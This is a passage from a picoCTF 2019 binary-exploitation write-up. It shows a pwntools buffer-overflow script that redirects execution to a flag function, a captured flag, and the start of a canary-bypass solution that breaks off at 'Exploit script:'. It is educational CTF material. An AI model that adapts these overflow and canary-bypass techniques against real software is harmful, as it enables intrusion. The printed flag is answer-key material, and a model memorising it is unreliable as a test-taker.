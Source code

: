 ```python

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e')
  REMOTE = True

# $  r2 ./vuln
# [0x080484d0]> aaaa
# [0x080484d0]> afl~flag
# 0x080485e6    8 144          sym.flag
# [0x080484d0]> pdf @ sym.vuln
# / (fcn) sym.vuln 63
# |   sym.vuln ();
# |           ; var char *s @ ebp-0xb8
# |           ; var int32_t var_4h @ ebp-0x4

win_addr = 0x080485e6

payload = 'a'*(0xb8+4)+p32(win_addr)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)

sh.sendlineafter(': ', payload)

sh.interactive()
```

flag: `picoCTF{arg5_and_r3turn55897b905}`

# CanaRy

## Problem

This time we added a canary to detect buffer overflows. Can you still find a way to retrieve the flag from this program located in /problems/canary_4_221260def5087dde9326fb0649b434a7. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/CanaRy/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/CanaRy/vuln.c)

## Solution

Same as [buffer-overflow-3](/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-3) from last year. The key point is that we can guess the constant canary one byte at a time and we can also bypass PIE by bruting forcing plus a partial overwrite.

Exploit script:
